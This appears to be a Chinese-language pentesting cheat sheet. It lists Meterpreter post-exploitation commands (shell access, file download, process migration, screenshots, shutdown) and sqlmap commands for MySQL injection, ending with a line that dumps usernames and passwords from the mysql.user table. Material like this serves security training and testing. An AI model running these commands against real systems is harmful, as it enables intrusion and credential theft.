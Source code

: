 ##### 基础命令

| 命令              |                     解释                      |
| :---------------- | :-------------------------------------------: |
| background        |         将Meterpreter 终端隐藏在后台          |
| sessions          | 查看已经成功获取的会话。-i 选项，切入后台会话 |
| shell             |             获取系统的控制台shell             |
| quit              |  关闭当前的额Meterpreter 会话，返回MSF 终端   |
| pwd               |          获取目标主机当前的工作目录           |
| cd                |                   切换目录                    |
| ls                |             查看当前目录下的内容              |
| cat               |                 查看文件内容                  |
| edit              |                   编辑文件                    |
| download          |                   下载文件                    |
| search            |                   搜索文件                    |
| ifconfig/ipconfig |                 查看网卡信息                  |
| route             |            查看路由信息，设置路由             |
| sysinfo           |                 查看系统信息                  |
| getuid            |                获取当前用户id                 |
| ps                |                   查看进程                    |
| getpid            |                 查看当前进程                  |
| migrate           |                   切换进程                    |
| execute           |                   执行文件                    |
| kill              |              终极指定PID 的进程               |
| shutdown          |                     关机                      |
| screenshot        |                   屏幕快照                    |

#### SQLMAP

##### MYSQL注入

###### GET

> sqlmap -u url 	检测注入点
>
> sqlmap -u url --dbs 列出所有数据库名字
>
> sqlmap -u url --current-db 列出当前数据库名字
>
> sqlmap -u url -D "mysql" --tables	指定一个数据库并列出表名
>
> sqlmap -u url -D "mysql" -T  "user" --columns 列出所有的字段名
>
>  sqlmap -u url -D "mysql" -T  "user" -C "username,password" --dump  指定字段名列出内容
